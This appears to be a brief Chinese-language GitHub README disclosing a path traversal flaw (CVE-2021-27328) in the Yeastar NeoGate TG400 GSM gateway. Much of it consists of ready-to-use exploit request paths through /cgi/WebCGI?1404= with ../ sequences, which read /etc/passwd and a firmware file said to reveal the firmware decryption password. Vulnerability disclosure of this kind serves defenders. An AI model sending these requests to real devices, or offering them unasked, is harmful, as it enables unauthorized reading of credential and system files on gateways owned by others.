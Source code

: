 # Yeastar-NeoGate
朗视 Yeastar NeoGate TG400 路径遍历漏洞CVE-2021-27328

描述

朗视 TG400 GSM 网关存在路径遍历 ，攻击者可以通过漏洞获取敏感信息
 
--------------------------------------------------------------------------------
 
影响范围

朗视 TG400 GSM 网关91.3.0.3

获取固件解密密码

/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect

/etc/passwd：

/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
